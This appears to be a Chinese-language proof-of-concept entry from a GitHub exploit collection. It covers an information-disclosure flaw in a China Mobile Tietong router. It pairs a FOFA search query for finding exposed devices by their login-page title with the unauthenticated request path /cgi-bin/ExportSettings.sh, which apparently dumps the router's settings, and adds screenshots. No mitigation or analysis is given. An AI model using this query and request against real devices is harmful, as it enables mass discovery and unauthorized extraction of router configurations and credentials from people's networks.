 ## 中移铁通禹路由器信息泄露漏洞

## fofa
```
title="互联世界 物联未来-登录"
```

## poc
```
/cgi-bin/ExportSettings.sh
```

![c4aa052bb7fbef5704af30bb0302d411](https://github.com/wy876/POC/assets/139549762/33707d5e-c958-4173-a1ad-7830b6db83d0)

![56869c622bcf37012cf54b5113d8a663](https://github.com/wy876/POC/assets/139549762/d00f4c2a-b7a8-455c-9beb-e3b4f454aa81)
